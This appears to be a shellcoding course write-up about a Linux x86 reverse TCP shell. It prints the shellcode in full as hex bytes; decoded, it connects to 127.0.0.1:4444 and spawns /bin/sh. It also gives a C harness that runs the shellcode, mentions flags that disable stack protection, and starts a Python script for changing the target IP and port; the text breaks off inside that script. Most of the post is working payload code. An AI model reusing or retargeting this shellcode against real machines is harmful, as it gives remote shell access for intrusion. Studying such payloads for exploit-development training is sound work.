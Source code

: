 After having compiled the assembler source file with compile.sh script shell, I
used scdump.sh script to dump the shellcode.

{%highlight sh %}
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\xb8\x80\xff\xff\xfe\x83\xf0\xff\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x31\xc0\x66\xb8\x6a\x01\xcd\x80\x85\xc0\x75\x24\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xb3\x01\x31\xc0\xb0\x01\xcd\x80"

{%endhighlight %}

I added this shellcode into the same C program used in the first assignment to
test our shellcode and I executed it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\xb8\x80\xff\xff\xfe\x83\xf0\xff\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\x31\xc0\x66\xb8\x6a\x01\xcd\x80\x85\xc0\x75\x24\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xb3\x01\x31\xc0\xb0\x01\xcd\x80";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{%endhighlight%}

Please note that compile.sh script uses -fno-stack-protector -z execstack flags
in order to disable stack protection mechanisms in Linux Operating System.


## The configurator

And now, let's write some helper code in order to tweak our shellcode.
Assignment request was that both IP address and destination PORT number, would
be easy to configure.

The following python script takes two arguments, an IP and a port number
Both of them are putted in network by order and then translated do hexdecimal.

{% highlight python %}
#!/usr/bin/env python

import sys, socket, struct;
from operator import xor;

def xor_ip_address(original_ip):
    hex_bin_ip          = hex((struct.unpack("<L", socket.inet_aton(original_ip))[0]));
    s = str(hex(xor(long(hex_bin_ip, 16), 0xFFFFFFFF)))[:-1]
    h1 = s[2:4]
    h2 = s[4:6]
    h3 = s[6:8]
    h4 = s[8:10]

    if h1 == "":
        h1 = "00"
    if len(h1) == 1:
        h1 = "0" + h1

    if h2 == "":
        h2 = "00"
    if len(h2) == 1:
        h2 = "0" + h2
    if h3 == "":
        h3 = "00"